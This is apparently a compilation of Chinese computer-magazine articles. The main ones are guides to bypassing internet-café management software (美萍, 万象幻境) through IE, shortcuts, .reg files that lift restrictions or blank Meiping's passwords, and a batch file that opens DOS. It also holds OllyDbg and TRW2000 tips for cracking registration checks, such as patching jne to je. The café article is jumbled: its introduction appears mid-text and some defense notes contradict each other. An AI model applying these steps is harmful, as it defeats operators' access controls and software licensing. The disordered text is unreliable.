防御：较新版的“美萍”添加了一个比较强大的功能，管理员可以自定义禁止运行某程序。只要管理员将所要禁止运行的程序名添加到系统设置内，以后用户运行该程序时，系统就会立即将它关闭。这里要注意的一点是：只要软件的标题栏里含有“系统配置”字样，哪怕是一个网页标题含有这几个字，系统都会统统关闭。所以，自定义时要有针对性，范围不能过大。

### 6. 其他工具

网吧管理类软件的部分功能是通过对注册表的修改来达到目的。比如说：隐藏硬盘、禁止使用“运行”、禁止使用“注册表编辑器”等。现在业内流行的许多系统管理软件不仅也有上述功能，而且还具有一些网吧管理软件没有的功能，所以用这些软件来辅助网吧管理，会有意想不到的效果。同样，如果这些软件的使用权限是在一些不良用户的手上，结果也可能是意想不到哦。这里只说两个：一个是超级兔子魔法设置，另一个是 Windows 优化大师。

#### 二、解除硬盘锁定

### 1. 用下载的方法

这个方法虽然不算方便、直接，但我也有必要说一下：运行 IE 后，在网页上任意找一个链接下载（越小越好）。下载完毕后，会出现一提示框，上有“打开文件夹”按键，对，我们要的就是它，那后面的事就无需我多言了吧……

防御：在网关设置程序里，选用“禁用收藏夹菜单”保存之后，再用此方法，就会出现“EXPLORE 非法操作”。

### 2. 通过 IE 查看文件夹

这种方法非常直接有效。首先打开一个 IE 窗口，拉出“查看”下拉菜单，选择“浏览器”中的“文件夹”选项。这时，主窗口左侧出现一类资源管理器的窗口，内有“我的电脑”树型目录结构（图1）。

用户可以根据自己的需要一层层地展开，寻找自己所需的东西。在这个问题上，万象幻境处理得比较好，在打开文件夹后，用户只能看到桌面，若想访问其他的文件夹，系统则会跳到 Internet Explorer 上，所以我们要动点脑筋了：先将硬盘设置成完全共享（这是完全能办到的），再通过网上邻居来访问自己的电脑，这和直接访问自己电脑的硬盘没有什么区别。到这里，有朋友可能要问：要是驱动器被隐藏起来怎么办？没关系，只靠修改注册表来达到隐藏驱动器的目的的话，我们只要用导入方法把注册表改回来就可以了。


图1

现在来讲另一种打开隐藏驱动器的方法。接着开始的步骤，拉出“文件”下拉菜单，选择“打开”，点击“浏览”，此时弹出的对话框内仍看不到隐藏了的驱动器。然后在“文件名”内输入想要打开的隐藏驱动器名，比如：`c:\`（注意：一定要有斜线），选择所有文件，再回车，C 盘就完完全全地展现在我们面前了，现在我们可以进行文件的移动、复制、粘贴等操作了。

防御：这种方法很实用，我暂时还没有找到有效的对付办法。

### 3. Internet 属性

这也是个老方法了。还是先打开一个 IE 窗口，拉出“工具”下拉菜单，选择“Internet 选项”，再依次点击“设置”、“查看文件”或“查看对象”，将弹出的文件夹一直向上就行了。

防御：在“万象幻境”中，为“Internet 属性”设置一个密码就可以了；在“美萍”中，将“Internet 属性”添加到禁止运行里就可以了。

防御：这种方法简单实用，让人防不胜防，我暂时也没有研究出来对策 :（

### 4. 快捷方式

使用快捷方式打开隐藏驱动器，可能很多朋友容易疏忽这一点。我用的是 Windows 文件夹的快捷方式，比如：Tencent 文件夹、C 盘等。我们事先要做好快捷方式，再保存到 E-mail 附件里，或是网络硬盘里备用。这里有两种使用的方法：一是直接运行法，就是下载后直接运行；二是查看目标法，这个方法要相对繁琐一点。将快捷方式下载来后，查看它的属性，再点击“查找目标”一键，然后就会弹出与快捷方式相对应的文件夹（图2）。


图2

### 5. 计划任务

用户能够用这种方法解除网吧管理软件对硬盘的锁定，算是管理员的一大失误了。用户只要双击“计划任务”图标，将弹出的文件夹一直向上就行了。

防御：在“高级”下拉菜单里，选择“终止使用计划任务程序”即可。

### 6. 其他工具

这里介绍两个能解除硬盘锁定的软件：

- 1. WinZip

WinZip 是现行非常流行的压缩软件。用户可以用 E-mail 附件的方法保存空白的 WinZip 文件，再运行当前计算机内任一压缩文件。解压后，就弹出默认的 `c:\unzipped` 文件夹。

防御：此方法对“万象幻境”好像不太灵，但对“美萍”有作用。“美萍”可以设置禁止运行“unzipped 文件夹”，但解压缩的文件夹用户可以任选；若是禁止运行 WinZip，那恐怕会引来更多的反对声，除此之外，我还没有两全其美的办法。

- 2. ACDSee

该软件自带有一个图像浏览器 ACDSee Browser，利用它，我们会有许多惊奇的发现。打开该文件（“美萍”默认的主菜单上就有该程序），会发现它的界面与 Windows 资源管理器很相似（如果不能直接打开，就任选一个图像文件双击打开，再双击图像就行了）。左边窗口有 Windows 树型目录结构，右边主窗口为打开文件夹的内容，包括具有隐藏属性的文件，这下，里面所有的文件都曝光了。我们可以将“我的电脑”一层层展开，如果管理员隐藏有驱动器怎么办，没关系，点击“收藏”图标，拉出下拉菜单，里面有各个驱动器的图标，需要哪个单击就行了。在右边照样可以进行文件的粘贴、删除等操作，使用起来比资源管理器还好，但美中不足的是，不能查看文件的属性（图3，图4）。


图4


图3

防御：我还是没有找到两全其美的办法，如果用的是“美萍”的话，我看还是拖到禁止运行菜单组中，才要安全一点。

#### 三、用 Windows 注册表

使用 Windows 注册表对网吧管理软件造成的破坏是致命的，我们对网吧管理软件的设置，包括密码、使用上的限制等，基本上都包含在注册表里。所以“美萍”及“万象幻境”都有禁止使用注册表编辑器的功能。

网上的禁用（包括禁用注册表编辑器）是通过对注册表的修改来达到目的的，因此我们只要将注册表修改回来，就能取消网管的限制。这里我们用导入的方法进行修改。先打开一个记事本，在上面输入欲改的子键、键值，然后保存为 `.reg` 文件，或保存为 `.txt` 文件后，将扩展名改为 `.reg`，再执行该文件即可。下面是一些常用的设置：

- 1. 取消“禁止使用注册表编辑器”

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTool"=dword:00000000
```

- 2. 取消“隐藏驱动器”（以下全同②子键）

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoDrives"=dword:00000000
```

- 3. 取消“隐藏运行”

```reg
"NoRun"=dword:00000000
```

- 4. 取消“隐藏桌面”

```reg
"NoDesktop"=dword:00000000
```

- 5. 取消“锁定桌面”

```reg
"NoSaveSettings"=dword:00000000
```

- 6. 取消“隐藏收藏夹”

```reg
"NoFavoritesMenu"=dword:00000000
```

- 7. 取消“禁止改变任务栏属性”

```reg
"NoSetTaskbar"=dword:00000000
```

- 8. 取消“禁止光盘自动运行”

```reg
"NoDriveTypeAutoRun"=hex:b5,00,00,00
```

- 9. 取消“隐藏控制面板”

```reg
"NoSetFolders"=dword:00000000
```

一般来说，网吧里主流的几个管理软件不外乎：美萍、网吧管理和万象幻境。不同的软件有不同的功能，而防御就必须有针对性地对准要害补漏。那么，首先让我们一起来看看网吧管理者们用的管理软件是如何被破解的，而我们又是如何去防御的，本文作者将一一道来。

### 网吧管理软件防破解措施浅析

文／薇　数码　风之梦

网吧管理软件的破解，诸位可能已经了解很多了，下面笔者将介绍网吧管理软件防破解的措施，分几种情况介绍：

#### 对于初级

其破解方法不外乎是用“Winkey”+D，删掉新桌面，再把桌面以窗口的形式打开了（因为硬盘是被屏蔽掉的，当你们打开电脑时将什么都看不见），此时新建一个文本文档输入这么几行：

```text
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]
"NoDrives"=dword:00000000
```

就可以了。

另存为一个 REG 文件后运行，等你再次开机时，打开电脑就会看见那可爱的 C 盘及 D 盘。当然你如果压根不想看见美萍，也行，只要把文档的内容改改就行了：

```text
REGEDIT4
[HKEY_LOCAL_MACHINE\Software\Mpsoft\Smenu]
"exitpassword"="i"
"setuppassword"="i"
"quitpassword"="i"
```

继续导入它，重启后你就放心大胆地退出美萍吧，此时它的密码可是什么都没有哟。

针对此类破解的防御方法：利用超级兔子设置 Winkey，靠 Windows 优化大师或者超级兔子禁止导入 REG 文件。

我们能直接进入注册表进行修改，那岂不是更好。由此，我们可以看到网吧管理软件在注册表上留下的足迹太多了，这是足以让它们毙命的。对于“美萍”来说，我们完全有能力使用户不能使用注册表编辑器。还是老办法，将注册表编辑器添加到禁止运行的程序里去，以后用户只要一打开注册表编辑器，系统就立即关闭它，让那些不良使用者欲哭无泪。而对于“万象幻境”来说，在这方面的保护还是比较薄弱的，希望在以后的新版本中能对这方面有所加强。

#### 四、在“美萍”里怎样使用右键

我一直搞不清楚“美萍”为什么要把右键给屏蔽掉，因为右键菜单上的命令都有快捷键可以直接使用，而且从下拉菜单中也可以直接找到。其实我们还有更简单的方法可以使用右键菜单，这算是个 BUG 吧。

首先按住右键不放，再点击一下左键，这时你看见了什么？右键菜单完完整整地展现在你的面前了。这和直接点击右键没什么区别，只是在看某文件、文件夹的时候需要先将该文件、文件夹激活。在需要用“打开方式”的时候，也要先将该文件激活，再按右键不放，最后按 Shift 键和点击左键。

总结：由上述漏洞及平时使用看来，在锁定硬盘上，“万象幻境”比“美萍”强一些；在自身安全上，“美萍”则比“万象幻境”要好一点。综合来讲两者各有优势，不相伯仲，但都有一个防守薄弱的问题。

我写这篇文章的初衷，是希望更多的人来关注一下网吧管理软件的发展，也希望能促使开发者更好地改进，而不是教大家来搞破坏（如有此心者请趁早收手）。亡羊补牢，未为晚矣。

#### 对于中级

如果禁止导入 REG 文件，一些想破解的人就无法通过导入注册表的方法来实现访问。如果禁止使用 Winzip、禁用“查找”，一般情况下还可以，但是山外有山，想搞怪的朋友总是方法多多，他们破解主要利用 IE。在 IE 地址栏中用中文输入“桌面”后回车。如此一来熟悉的桌面又以窗口的形式打开啦！现在破解者们要做的和上面要做的一样：新建一个文本文档，然后输入这么一行：

```text
C:\COMMAND.COM
```

当然此时就得把它另存为批处理文件啦。随便的一个文件名后加上 .BAT 就可以了，然后运行它。又成功地跳入了 DOS 了（注意：此时是没办法用 REGEDIT 来修改注册表的，如果美萍是 6.5 版以上，注册表修改器将会是一闪而过，是无法使用的）。进入 DOS 后一般是没有限制的。

针对此类破解的防御方法：屏蔽 DOS 一般是用美萍，然后对于 IE 上的漏洞，可以换一个浏览器，用 MyIE 这个软件可以控制这个漏洞，另外就是靠网络资源，一般只要用 IE 自带的过滤，过滤带有“黑客”“破解”之类的字样就可以了。

#### 对于高级

开机屏蔽 F4、F5、F8 时，一些破解者们不能从开机时下手；屏蔽 MS-DOS，不能使用批处理文件和进入 MS-DOS 方式；屏蔽鼠标右键菜单，不能新建文件；因为网吧里可以用超级兔子中的安全限制全选 + 屏蔽本地硬盘 + 美萍来限制大家的。

到这里，一般的破解者就极难找到老板们的防御漏洞了。但是，破解者们总是能想尽各种方法来突破，所以他们只好从美萍和 IE 找空子了。

和中级说的一样，在 IE 的地址栏中输入如“笔者的文档”或“桌面”等，文档和桌面将会以窗口的形式打开。此时破解者们要做的工作只有一个：查找。找什么呢？找一个快捷方式的文件，找到后点击它。不知你注意过 IE 没？工具栏上是有一个属性按钮的，点“属性”，将看见有目标和其起始位置的，注意一下其起始位置吧，它是本地硬盘上的一个目录。好，接下来点“查找目标”，是不是又到了本地硬盘上了？不过这个目录是不是很眼熟？对了，就是刚才那个目标目录。好了，现在已经完成对本地硬盘进行访问的目的了。什么？你的 QQ 的聊天记录不能 Del 掉？唉，别按 Del 键呀，它可是有可能被屏蔽掉了哟，点 IE 上的删除吧（就是那个叉叉）。怎么？认为权限太少？那你别太心急呀，解铃还需系铃人。找兔子吧，一般地说它在硬盘上的某处。根据大家的习惯来看，它不是在 C 盘的 TOOLS 下，就是在 D 盘上的 TOOLS 下。其实你也别想着更多的权限了。如果找不到硬盘里的，可以从网上 Down 一个下来。

针对此类破解的防御方法：删除在桌面上的所有快捷方式，而且软件要装在一些别人想不到的地方。上网记录、临时文件之类的东西可以在 IE 选项里面改变路径。

- 1. 可以通过网络邻居的。把目录设为完全共享，通过网络邻居访问本机，之后……。当你以网络邻居的身份访问本机时，一切烦人的权限限制就都没啦。

针对这类破解的防御方法：通过 Windows 优化大师来设置桌面上的网络邻居，将其隐藏，甚至可以隐藏桌面上所有的图标。

- 2. 桌面其实是本地硬盘上的一块区域，所以想破解就从这里下手。

针对这类破解的防御方法：把 Windows 安装在别的区里。

- 3. 网吧里的 QQ 一定有一个备份在本地硬盘上，而且一般会在 D 盘如 TOOLS、DOWNLOADS 或 BACKUP 之类的目录下的，破解者会用心找到它，找到后重新安装，把原来的 QQ 覆盖掉后，久别的 TE 又会回来。

针对这类破解的防御方法：用万象禁止下载。

- 4. 如进入 DOS 模式，破解者们会多用内部命令或外部命令。外部命令是可改名的，杀伤太大，如果有一些心态不良的破坏分子从这里入手，后果……

针对这类破解的方法：屏蔽 DOS。

- 5. 找不到快捷方式，去点 IE 的最左上角，可以拉一个快捷方式的，改起始位置后就可以了。

针对这类破解的防御方法：换 MyIE。

对于美萍的破解，有时不用那么麻烦，可以采取如下方法：

- 1. **Winamp 浏览器**

打开 Winamp，在主窗口上按 Alt+T，打开浏览器，继续按 Ctrl+O 打开浏览器地址栏，此时输入 C：或者 D：；不管管理员有没有隐藏 C 或 D 盘，都能直接进入 C 盘或者 D 盘。美萍一般的安装目录是 C：/SMENU，单击这个文件夹，按 Ctrl+D 或者 Shift+Delete 删除并重启。美萍被删除，可能有的美萍是虚拟删除，这时，可采取重新安装美萍即可。

针对这类破解的防御方法：改变美萍路径，靠魔法兔子禁止组合键。

- 2. **手动速度破解**

刚启动 Windows 时，美萍并没有直接运行，而是等待 Windows 运行完毕后才开始工作，这个时候，可以在桌面图标刚出来的时候很快地按方向键向下，回车。等美萍运行起来的时候，文档就会出现在你眼前，剩下的步骤同上。

针对这类破解的防御方法：用 Windows 优化大师隐藏桌面所有图标！

现在美萍安全卫士一般用的是 8.45 版。

- 通常禁止以下操作：
  - 禁止右键
  - 禁止从 IE 中访问 C、D……等盘资源
  - 禁止开始菜单，隐藏 C、D 等盘
  - 禁止使用热键，包括 Ctrl+Alt+Delete 和 Alt+Tab 等等
  - 开机屏蔽 F4、F5、F8 等键
  - 隐藏桌面图标
  - 禁止使用注册表编辑器
  - 禁止从安全模式启动
  - 禁止从 DOS 模式启动
  - 禁止修改 IE 收藏夹
  - 禁止修改主页地址
  - 可控制 IE 窗口数量
  - 可人为设置禁止导入的文件类型

这些功能对于一般的破解都可以做到防范了，但是要注意，网吧管理软件安装完成后，不要只是选择默认设置，要认真地看看说明，软件如果不经过人为的设置是不会发挥出最大的威力的！

现在来总结一下防御措施，让广大网吧老板能更加安心为网友们提供更好的服务：

- 1. 一般目前的网管软件很多，比如万象就是不错的一个选择，可以进行双重锁定，而且万象目前在网络上已经出现了破解软件，可以靠 IE 去过滤带有“万象密码破解”之类的字眼。万象 + 美萍是一个不错的防御措施！
- 2. 经常更新网管软件，下载最新版本。因为毕竟新的东西总是有它的改进，能更进一步地去除以前老版本的 BUG，并增加新的更多更好的功能。
- 3. 靠周边软件。比如：超级兔子、Windows 优化大师，还有好多其他的乱七八糟的小软件，都值得一试。
- 4. 一般普通的软件，别放在众所周知的目录下，可以进行安装目录更改。
- 5. 强烈推荐更换 MyIE 浏览器，体积小、占用资源少、方便易用，是网吧老爷机的选择！（好熟悉的话，广告？？）
- 6. 用 GHOST 为每个机器备份，这样安装也方便，就算出问题了也不用担心，几分钟就 OK！
- 7. 定时为网吧杀毒，目前普通的木马、杂类的密码盗窃软件，杀毒软件也可以查出来，这里推荐金山毒霸 2003。

最近国内著名的加解密技术论坛——001 服务器上的“软件调试论坛”刮起了一阵 Ollydbg 的热风，很多逆向工程的经典问题都被重新提出来，一些新生代的高手们通过重新用 Ollydbg——演绎。

## 探索 Ollydbg 的“十全武功”

文／木头

Ollydbg 让很多用惯了 S-ice、TRW 等系统级 Command Line 调试器的老鸟们大跌眼镜，zczc、飞叶流枫的 Ollydbg 脱壳系列文章把 tel!Lock、Aspr、幻影等经典壳全部摧倒，winroot、slimboy 的 Ollydbg 爆破和算法分析系列文章充分展示了 Ollydbg 与其前辈相比最为突出的人性化设计的一面。还有一些朋友不嫌麻烦，为初学者写了大量的 Ollydbg 使用的入门教程。所有的这些加起来，终于让 Ollydbg 从刚开始推出时的默默无闻，变成了现在的红透半边天。可以说，只要不是开发驱动程序，一般应用程序的各种调试工作都可以用 Ollydbg 完美完成。面对这种情况，我们不禁想问：到底 Ollydbg 具有什么神奇的魔力，能够在短短的一两年时间内如此迅速蹿红，打破 S-ice 近乎垄断的调试器地位呢？下面就让我们随着文章的介绍，慢慢领略 Ollydbg 的“十全武功”吧！

一方面，从设计理念上来说，Ollydbg 没有去挤 S-ice 那根 Ring0 级别的独木桥，自己在 Ring3 下面发展。Ring3 虽然听起来级别没有 Ring0 高，可是在 Windows 的保护模式模型下面，所有的应用程序都是运行在 Ring3 级别，所以，要调试一般的应用程序，Ring3 级别的调试器的功能足矣。并且，运行于 Ring3 的同时，带来了可以多任务的便利，一边调试，一边上网聊天，听 MP3，这在以前 S-ice 的年代是根本不能想像的事情，可是 Ollydbg 把它变成了现实，摆在我们的面前。

另一方面，就是 Ollydbg 本身具有的强大的多种功能。在 001 论坛上，经过了将近一年对于 Ollydbg 功能的讨论和探索后，大家终于取得了一个比较一致的意见：Ollydbg 是综合了 S-ice、WinHex、Hiew 这 3 款强大的 Crack 工具大部分优点的超级工具！在 Ring3 应用程序的跟踪方面，无论从易用性、可扩展性，还是从界面的亲和力来说，Ollydbg 都是第一号备选方案。可是，由于 Ollydbg 是菜单 + 命令行形式的操作界面，所以，有很多强大、奇妙的功能可能隐藏在菜单的后面，而未被大家所发现。这篇文章的主要目的就是把这些可能不为人所知的各种功能展示出来，看后大家可能想起在以前遇到问题的时候，为什么没能够想到自己的手边原来还有这么一个逆向工程的核武器！

### （1）配置好 Ollydbg 的显示界面

Alt+O 调出 Debugging Option 设置界面，在 Disassembler 选项卡内，勾选如下选项：

- Tab between mnemonics and arguments
- Extra space between arguments
- Show default segments
- Always show size of memory operands
- Show local module name
- Show symbolic addresses

在 CPU 选项卡中，设置如下：

- Underline fixups
- Show direction of jumps
- Show jump path
- Show greyed path if jump is not taken
- Gray command that fills gaps between procedures

在 ANALYSIS 1 选项卡中，勾选如下选项：

- Show ARGS and locals in procedures
- Show arguments of known functions
- Guess number of arguments of unknown function
- Auto start analysis of main code
- Analyse code structure
- Decode cascade IF's as SWITCHES
- Trace contents of registers
- Decode tricky sequences
- Keep analysis between sessions

按照上面这样的设置方法设置后，Ollydbg 就具有了标示跳转、解析花指令、自动猜测未知函数的参数个数等诸多功能。其显示界面如图 1 所示。

```text
0040100B  |. 8B45 08      MOV EAX, [ARG.1]
0040100E  |. 8BD0         MOV EDX, EAX
00401010  |. 8955 FC      MOV [LOCAL.1], EDX
00401013  |. 33C9         XOR ECX, ECX
00401015  |. 8B45 0C      MOV EAX, [ARG.2]
00401018  |. 8B55 FC      MOV EDX, [LOCAL.1]
0040101B  |. 8B32         MOV ESI, DWORD PTR DS:[EDX]
0040101D  |. 8B7A 04      MOV EDI, DWORD PTR DS:[EDX+4]
00401020  |. 0FAF78 0C    IMUL EDI, DWORD PTR DS:[EAX+C]
00401024  |. 0FAF30       IMUL ESI, DWORD PTR DS:[EAX]
```

看到 [ARG.2] 和 [LOCAL.1] 这样的字样了吗？如果你是 IDA 的老手，在一个动态跟踪的软件里头看到如此熟悉的身影，你能不激动么？

#### （2）断点的设置

跟踪的过程中，按 F2 设置断点，然后你可以按 F9，让程序 Run 起来，看看你的断点起作用么？

#### （3）区段断点的设置

如果你是一个老鸟，相信你一定对 TRW 的 pncwsec 命令不陌生。在网上一篇流传甚广的脱壳教程里头，教会了许多人在脱壳时应用这个神奇的命令。可惜的是 S-ice 不支持这个命令，但在 Ollydbg 里头，你只要 Alt+M，然后选中你想设断点的区段，右键，怎么样？看到令你热血澎湃的 Set BreakPoint 选项了么？

#### （4）条件断点的设置

任何一个老鸟对于“bpx CreateFileA if (eax==0)”之类的条件断点都不会陌生，可惜的是，无论是 S-ice 还是 TRW，他们的条件断点功能都不算强大，而且有时还有长度的限制，特别是 S-ice，bpm 断点最多只能设 4 个，所以有时候就会觉得断点资源不够用。现在有了 Ollydbg，你只要 Ctrl+T 或者 Shift+F4，你就能看到两种全新的条件断点设置方式。图 2 下图是 Ctrl+T 后，屏幕的截图，不要太惊讶，是的，在 Ollydbg 的世界里，条件断点的设置就是这么简单直观！

至于 Shift+F4 是什么界面，大家自己去发掘吧。我可以保证，绝对不比这个差！

#### （5）跟踪的技巧

任何一个完美的调试器都会有 3 种功能：Step Into、Step Over、Return if ret（借用 Stan 的名言：“如果没有，扔了它”）。在 Ollydbg 里头，和这 3 个功能对应的热键是：F7、F8、Ctrl+F11。

#### （6）如何设置运行参数

我要用 Ollydbg 跟踪“Ping www.sian.com.cn”的执行全过程，怎么办？没问题！菜单选择：Debug -> Arguments，一切 OK！

#### （7）如何能知道目前跟踪的程序是在干嘛

在代码丛林中迷失方向是很正常的事情，可是，有经验的行家里手会从很多地方找出种种蛛丝马迹带领自己走出丛林，最容易发现线索的地方就是堆栈里头的 LOCAL 变量的值。所以，勤用内存显示功能，你将不再迷路！

#### （8）D 命令哪里去了

初学 Crack 的朋友，对于 D EAX 这个命令一定不陌生吧？很多程序这样 D 来 D 去，注册码就能被 D 出来了！那么 Ollydbg 里头，D 命令哪里去了呢？内存显示区域右键，选择 Goto，很快你就能看到你想要的东西啦！

## （8）字符串参考哪里去了

W32Dasm 的字符串参考功能对很多人是个精神鸦片一样的东西，Ctrl+F12，搜索“注册失败”，往上翻，找到 jne，改成 je，这是大多数 Cracker 们随口就能来上一段的爆破心经。可以说，对于 80% 以上的程序而言，只要有这个口诀，任务就基本上完成了一大半。那么 OllyDbg 里头，如何找到字符串参考？很简单，Ctrl+B，出来的界面如图 3 所示。在 Unicode 横行的 Windows 2000 里头，这是最好的动态字符串查找工具！


图 3

## （9）有什么方法让事情简单些么

我们写程序的时候，和程序功能代码同样重要的是什么？是注释！任何写过程序的人，都不会不知道注释的重要作用，它就如同一盏指路的明灯，让你不会迷失方向！在 OllyDbg 的反汇编窗口第 4 栏双击，你想写什么就写什么吧。而且这个注释是持久的！

## （10）对付 DLL 的载入，有什么灵丹妙药

Debugging Options -> Events，勾住“Break On New Module”，任何一个 DLL 的载入都逃脱不了 OllyDbg 的法眼！

## （11）令 Hiew 汗颜的 Online Patch 功能

跟踪过程中，哪里需要爆破，就在哪里双击，随心所欲地书写自己想写的汇编代码，OllyDbg 会帮你完成接下来所有的工作——汇编、修改、存盘！

怎么样？以上这 12 条精彩的使用建议，读后是不是觉得非常震惊，急于一展拳脚了？其实，OllyDbg 还有很多精彩的功能，例如 DIY 个性化界面、在消息循环内设断点，由于篇幅所限都未能一一展示出来。相信只要大家勤于思考，一定会发掘出更多更精彩的实用功能！

### 网络打印机为什么被锁住了

文／郑陆军

我曾为单位布置过一个由 8 台电脑组成的小网络，共用一台激光打印机和一只台勤 P642 ADSL Modem。为防病毒及黑客，在每台电脑上安装了《金山毒霸 2002》，一切都很顺利。前段时间，我把台勤 P642 改成有路由功能，充当服务器。因为该 Modem 能自动为每一台电脑分配 IP 地址，所以我们没有再为每台电脑分配 IP 地址。过了几天，我的同事要用我的电脑打印文件，可怎么也不行；我查了一下，别的电脑可以访问我的文件，我的电脑也能调用其它电脑的文件，上网也正常，说明网络已通。我试着重新安装网络打印机也不行，再试试其它电脑，有 6 台电脑可以正常打印，只有 2 号电脑和我用的电脑不能打印。是不是没有指定 IP 地址的原因呢？我重新为每台电脑指定 IP 地址，但毛病仍然存在。是不是有病毒？于是我先后用《瑞星 2002》《KV3000》《金山毒霸》等杀毒软件并下载最新病毒库来查杀，结果病毒倒是有，可杀了后还是不能用网络打印机，只能用其它电脑调用我的电脑的文件来打印。

我一直为这个问题苦想了好几天。前些天，我又用别的电脑调出我那台电脑的文件打印，在打印时，我那台装有《金山网镖》的电脑老是叫。打印完后，想看看是什么程序想自动连接网络，于是我打开《金山网镖》查看。当看到有些程序被禁止时，突发奇想：这里关闭（禁用）的是否有网络打印机？马上试。结果当我启用：

```
"spooler sub system process"

C:\windows\system\spool32.exe
```

连接网络试着打印文件时，奇迹马上出现了——我的电脑终于可以打印了！再以同样的方法用 2 号机打印，OK。原来是《金山网镖》锁住了我的网络打印机！

事后分析，可能是开机后，《金山网镖》提示禁止／允许某些程序连接网络时，我们无意都选择了“禁止”，所以我们不能用网络的某些程序，如网络打印机。

### TRW2000

#### 得心应手盗技五则

文／文莽

TRW2000 是一款和 SoftICE 齐名的调试软件，它是中国人自己编写的，完全兼容 SoftICE 各条指令，是 Cracker 的必备武器。既然是国人开发所得，那么钟爱的朋友肯定有很多，久而久之就会有很多心得，这不，作者又整理了几则小技巧给大家。

TRW2000 专门针对软件破解进行了优化，在 Windows 下跟踪调试程序，跟踪功能更强，可以设置各种断点，并且断点种类较之 SoftICE 更多，而且它可以像一些脱壳工具一样完成对加密外壳的去除，自动生成 EXE 文件，因此它的破解能力更强。而且 TRW2000 不用像 SoftICE 那样必须在开机时即启动运行，这样有两个好处：一来不占宝贵的系统资源，二来可以在一定程度上防止某些软件检测到 TRW2000，因此相对来说它的隐藏性更好一些。笔者在使用 TRW2000 的过程中总结了一些经验，虽然都是些雕虫小技，但可以使您在使用该软件时更得心应手。


图 1

### 1. TRW2000 中抓图的方法

有时，大家在使用 TRW2000 的过程中需要抓图。由于 TRW2000 正在运行，此时无法用 HprSnap、Capture 等抓图软件抓图。但要想写教程或截图给别人看，还不得不在 TRW2000 中抓图，该怎么办呢？其实，TRW2000 中已经提供了抓图功能，只是你没有发现而已。

在 TRW2000 中输入 `Ver keep` 指令，按回车键。在该命令执行后，实际上我们已经是退出 TRW2000 的调试界面了，只是在屏幕上保持该界面不变，此时就可以随意抓图了。如果此时你按 `Print Screen` 键一下，就可以将调试窗口抓下来保存在内存中。接下来可以用鼠标点击“开始”菜单中的“程序”→“附件”→“画图”，启动画图程序，点击“编辑”菜单中的“粘贴”就可以把刚刚抓取的图粘贴到画图程序中。或者在执行 `Ver keep` 指令完毕后，运行 HprSnap、Capture 等专业抓图程序抓图，一样可以达到抓 TRW2000 运行调试图的目的，请看抓图结果（图 1）。

在用 TRW2000 调试程序时，如果向后再执行一行代码就会有输出产生，即被调试程序会显示出错的对话框（因为注册码不正确嘛，所以会显示出错对话框），这时用 `Ver keep` 指令就不大管用了，因为这个对话框的出现会破坏屏幕显示状态。本来好好的 TRW2000 调试界面保留在屏幕上，出现了一个对话框多难看啊！关键是此时抓图的效果就不好了。该怎么办呢？其实，我们可以用 TRW2000 的 A 命令，编辑该地址，然后输入 `jmp eip` 指令使程序中止下来，以免破坏屏幕，这时再抓图就可以了。

```
A 016F:0043246D
jmp eip
```

当然了，如果你手快，是键盘操作高手的话，就可以简单一些。方法是：输入 `Ver keep` 命令后，一只手马上按回车，另一只手按 `Print Screen` 键，不过要眼明手快，否则只能按上述方法。

### 2. 让你的眼睛更舒服

TRW2000 所有窗口的默认颜色都是黑底蓝字，在白天不易看清，此时你可以在 TRW2000 中输入 `VER BLUE` 指令来改变调试界面的颜色。第一次执行完毕，调试界面的颜色变为黑底白字（图 2），第二次执行该指令，变为黑底粉字，第三次执行该指令又变回为黑底蓝字。个人认为改为黑底白字对眼睛最好，看起来最舒服。


图 2

如果你想让它每次启动时都改变，你可以用记事本程序打开 TRW2000 安装目录下的 TRW2000.INI 文件，找到 `INIT="lines 35;wr 3;wd 8;wc 16;code on;"` 这一行，将它改成 `INIT="lines 35;wr 3;wd 8;wc 16;code on;ver blue"`，也就是把 `VER BLUE` 加在里面，这样就方便多了。

### 3. 解决 TRW2000 1.23 版的小 Bug

在使用 TRW2000 1.23 版，也是最终版时，发现一个小 Bug，那就是当 TRW2000 所在的文件夹名长度大于 8 个英文字母时，如 `D:\trw2000123`，按热键时存在 plug-ins 装载失败的现象！同样是这个 1.23 版的 TRW2000，当你按热键 Ctrl+N 或 Ctrl+M 会出现调试界面，但当你再按这两个热键却不能回到被调试程序中去，这该怎么办呢？很简单，你可以按 F5 键或输入 G 键继续执行被调试程序，这样就可以返回到被调试程序中了。另外，在 1.23 版中退出后会锁定键盘，此时可以按一下 Ctrl 键就可以解决问题。由于 1.23 版不够稳定，问题很多，在此也建议大家使用 1.22 版 TRW2000。对于 TRW2000 来说，可不是版本越高就最好！

### 4. 使用 TRW2000 的几个小窍门

在 TRW2000 中可以用 `bc` 指令代替 `bc *` 指令，该命令是清除所有断点指令，在不需要断点后可以使用该指令。同样的道理，可以使用 `bd`（暂停断点指令）代替 `bd *` 指令，用 `be`（恢复断点指令）代替 `be *` 指令。

在调试 VB 程序时，不用把 `msvbvm50.dll` 或 `msvbvm60.dll` 文件放入 TRW2000 安装目录下的 DLL 文件夹中，只要运行 TRW2000，在主界面中点击“Browse”找到被调试程序，然后点击“Load”加载这个 VB 程序，即可下断点。此方法也适合于无 DLL 目录的老版本，如 1.03 版。

对于破解 VB 程序，我有个小小的心得，那就是在 TRW2000 中下断点 `bpx __vbastrcmp` 非常地管用，当然也不一定非要下该断点，只是有些时候会加快找到 VB 程序的关键比较代码。注意，刚刚谈到的 `bpx __vbastrcmp` 断点中的“__”是按住 Shift 键的同时按两下减号“-”键输入的。有些朋友在看教材时没有注意到这一点，导致无法成功。

另外，在下断点中断下来后，建议使用 `Pmodule` 指令，很多情况下可以加快破解速度。Pmodule 是 TRW2000 特有的命令，在 SoftICE 中没有这个指令。Pmodule 的作用是相当于按 F12 键直至 CS:EIP 位于模块中，但它比 F12 更实用，可以快速回到当前程序领空，而只有回到当前调试跟踪程序的领空才可能破解掉该程序。这样就不用按多次 F12 了，而众所周知，在 SoftICE 中要按 F12 键很多次才能回到当前程序的领空，这样就大大地方便了我们。

### 5. 关于 TRW2000 的两组热键

